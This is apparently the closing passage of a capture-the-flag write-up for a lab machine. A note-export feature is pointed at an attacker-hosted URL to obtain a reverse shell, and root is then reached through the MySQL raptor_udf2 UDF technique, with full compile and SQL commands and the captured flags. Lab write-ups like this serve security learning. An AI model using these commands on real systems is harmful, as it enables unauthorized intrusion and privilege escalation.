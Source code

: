 With everything done, lets head to the "export note" section and enter the URL for Export directly from cloud:

URL: "http://10.10.14.97/uwu.md".

Immediately, a shell opens on the listener. 

## USER-FLAG 
>143c0776e2fb701a475d94e18db6b57c


## 6. Exploit for root

First of all lets get an better shell via python:
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```

After enumerating all services on the box, there is nothing that sticks out. We still have the root credentials for MySQL. Looking at privilege escalation techniques in MySQL leads us to [Privilege Escalation via library](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mysql#privilege-escalation-via-library). Download and copy the [UDF library](https://www.exploit-db.com/exploits/1518) to the box, and compile it. (I will be putting it into the home directory, but you can also put it in the /tmp directory.)

Since nano isnt really a option here, i will get it through a python server and with wget. You could use a text editor if you have a upgrated shell. At the end there should be a file called "raptor_udf2.c". WIth the payload content. And also dont forget to compile it:

```bash
gcc -g -c raptor_udf2.c
gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
```
Now lets start the exploit:

```bash
mysql -u root -p 
```

```mysql
use mysql;
create table npn(line blob);
insert into npn values(load_file('/home/svc/raptor_udf2.so'));
select * from npn into dumpfile '/usr/lib/x86_64-linux-gnu/mariadb19/plugin/raptor_udf2.so';
create function do_system returns integer soname 'raptor_udf2.so';
select * from mysql.func;
select do_system("cat /root/root.txt > /tmp/root.txt ; chmod 777 /tmp/root.txt");   
```

If it doesnt work first time, dont worry. Try deleating the c file and recompile it again or restarting mysql and reinput the commands. Try it a few times and soon you will get it working.

The exploit wil dump the root flag into /tmp which we then can access. 
```bash
cat /tmp/root.txt
```


## ROOT-FLAG 
>b175bcee887ce81b2d12a7b0f2f2330c


